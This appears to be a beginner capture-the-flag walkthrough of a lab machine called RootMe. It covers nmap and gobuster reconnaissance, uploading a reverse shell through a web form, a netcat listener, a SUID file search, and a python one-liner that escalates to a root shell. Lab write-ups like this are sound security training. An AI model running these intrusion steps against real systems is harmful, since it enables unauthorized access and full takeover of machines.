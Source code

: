 # RootMe

A CTF for beginners, can you root me?

## Task 1 - Deploy the machine

Set up environment IP as IP_Machine

`export IP=10.10.234.161`

![task1-IP](./images/task1-IP.png)

## Task 2 - Reconnaissance

* Scan the machine, how many ports are open?
	
	`nmap -sV $IP | tee -a nmap-default.txt`

	File scan resulted [here](./files/nmap-default.txt)

	![task2-nmap](./images/task2-nmap.png)

* What version of Apache is running?
	
	![task2-version](./images/task2-version.png)

* What service is running on port 22?
	
	![task2-ssh](./images/task2-ssh.png)

* Find directories on the web server using the GoBuster tool. What is the hidden directory?
	
	`gobuster dir -w /usr/share/wordlists/dirb/common.txt -u $IP | tee -a gobuster-default.txt`

	File scan resulted [here](./files/gobuster-default.txt)

	![task2-gobuster](./images/task2-gobuster.png)
	

## Task 3 - Getting a shell

* Find a form to upload and get a reverse shell, and find the flag `user.txt`
	
	* Upload reverse shell 
		
		![task3-reverse](./images/task3-reverse.png)

	* Open terminal for netcat listening
	
		`nc -nvlp 8888`

		![task3-nc](./images/task3-nc.png)

	* Open file upload from website
	
		![task3-shell](./images/task3-shell.png)

	* Get access to server

		![task3-access](./images/task3-access.png)

	* Find and read file `user.txt`
	
		![task3-user-txt](./images/task3-user-txt.png)

## Task 4 - Privilege escalation

* Search for files with SUID permission, which file is weird? 

	`find / -type f -perm -4000 -ls 2>/dev/null`

	![task4-find](./images/task4-find.png)

* root.txt

	`/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

	![task4-root-txt](./images/task4-root-txt.png)



